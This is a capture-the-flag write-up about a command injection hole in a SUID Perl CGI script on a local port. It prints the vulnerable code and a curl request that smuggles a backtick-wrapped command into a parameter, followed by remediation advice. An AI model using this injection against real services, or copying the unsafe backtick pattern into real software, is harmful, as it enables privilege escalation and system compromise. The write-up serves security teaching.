

# Level04 - Command Injection in SUID Perl Script

## Description

A Perl script `level04.pl` was running locally on port `4747` with SUID privileges.  
Inspecting the code revealed:

```bash
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The script takes a user-controlled parameter `x` and directly executes it using backticks:

```bash
print `echo $y 2>&1`;
```

Since backticks execute shell commands, this introduces a command injection vulnerability.

## Explotation

To exploit this, I sent a request to the local service and injected the `getflag` command:

```bash
curl 'http://localhost:4747/?x=`getflag`'
```

Because the script runs with SUID privileges (`flag04`), the injected command is executed with elevated permissions, allowing me to retrieve the flag.

## Remediation
- Never execute user input directly in shell commands.
- Sanitize and validate all inputs.
- Avoid using backticks or `system()` with untrusted data.

## Conclusion

This vulnerability demonstrates that executing user-controlled input in privileged scripts can lead to full system compromise.


